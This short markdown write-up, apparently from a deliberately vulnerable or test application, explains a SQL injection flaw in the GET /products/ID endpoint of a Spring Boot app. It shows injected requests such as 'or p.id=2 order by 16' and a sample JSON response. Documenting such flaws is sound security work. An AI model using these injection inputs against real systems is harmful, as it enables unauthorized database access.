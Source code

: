 # SQL Injection
SQL injection is a database query manipulation attack against structured query language (SQL) that allows attackers to escape the intended query to perform unintended/malicious actions.

## Exploitation
**Location:** _GET /products/ID_

The ID parameter of GET /products/ID can be escaped since SpringBoot on this endpoint does not implement any protects filtering or isolating for clause fields.  Below is an exploitation example:

    # Receives Product ID 1 information
    GET /products/1 or p.id=2  order by 15

    # Receives Product ID 2 information when it should be Product ID 1
    GET /products/1 or p.id=2  order by 16

You'l see that adding _or p.id=2 order by 16_ changed the product output showing effectively that SQL was escaped

Successful exploitation looks like:

    {
    "id": ...,
    "name": ...,
    "brand": ...,
    "description": ...,
    "price": ...,
    "stock": ...,
    "productReviews": [{...}, {...}, ...],
    "averageReviewGrade": ...,
    "tagNames": [...],
    "image": ...
    }